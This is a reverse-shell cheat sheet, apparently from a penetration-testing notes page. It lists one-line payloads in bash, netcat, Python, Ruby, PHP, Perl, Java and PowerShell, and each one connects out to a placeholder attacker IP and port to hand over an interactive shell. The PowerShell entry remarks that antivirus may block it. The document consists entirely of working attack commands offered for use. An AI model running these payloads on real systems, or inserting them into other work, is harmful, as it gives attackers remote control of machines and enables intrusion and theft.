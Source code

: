 title: Reverse Shells

### bash

```
bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1
```

### netcat / nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP-ADDRESS} {PORT} >/tmp/f 
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("{IP-ADDRESS}",{PORT}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' 
```

### PHP

```php
php -r '$sock=fsockopen("{IP-ADDRESS}",{PORT});exec("/bin/sh -i <&3 >&3 2>&3"); 
```

### Perl

```perl
perl -e 'use Socket;$i="{IP-ADDRESS}";$p={PORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

### Java

```
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{IP-ADDRESS}/{PORT};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor() 
```

### Powershell
This one sometimes get blocked by AV or Powershell security configuration.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('{IP-ADDRESS}',{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'"
```